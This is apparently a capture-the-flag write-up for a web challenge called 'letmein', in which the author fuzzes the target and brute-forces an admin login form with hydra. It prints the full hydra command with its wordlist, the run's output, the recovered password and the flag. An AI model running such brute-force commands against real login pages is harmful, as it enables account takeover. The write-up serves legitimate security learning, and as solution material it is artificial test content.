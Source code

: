 # letmein (🪙 991)

Lastpass went bankrupt and i only got a list of all my passwords when they closed down. I cant remember which password i used to log in to my admin page. There are too many options, and i dont have the time to try them all. You are like a hacker, right? Log me in while i go to lunch, thanks.

Oh, the username is admin.

http://51.20.45.230:4001/

# Writeup

Opened, saw the index.php, script.js gives 404. Not much here to look at Doing a quick fuzz shows me:

```
flag.php
index.php
index.html
```

Headers shows Apache/2.4.52, canot find any quick vuln in exploitdb for that.

He gives me the user which makes me think I should brute. Starting hydra on it. First I tried rockyou but I dont have 40+ hours. Got a tip to use a smaller file. Had a lot of different ones so used this letter passwds first. Seems to be about 50k. 

```bash
hydra -I -l admin -P /usr/share/wordlists/SecLists/Passwords/Most-Popular-Letter-Passes.txt -u 51.20.45.230 -s 4001 http-post-form "/index.php:username=^USER^&password=^PASS^:F=failed"
```

After a while I got success on `nuts`. 

```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-09 23:28:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 47603 login tries (l:1/p:47603), ~2976 tries per task
[DATA] attacking http-post-form://51.20.45.230:4001/index.php:username=^USER^&password=^PASS^:F=failed
[STATUS] 3276.00 tries/min, 3276 tries in 00:01h, 44327 to do in 00:14h, 16 active
[STATUS] 3331.33 tries/min, 9994 tries in 00:03h, 37609 to do in 00:12h, 16 active
[STATUS] 3333.71 tries/min, 23336 tries in 00:07h, 24267 to do in 00:08h, 16 active
[4001][http-post-form] host: 51.20.45.230   login: admin   password: nuts
``````

# Flag

```
siktCTF{NUT5_4_TH0UGHT}
```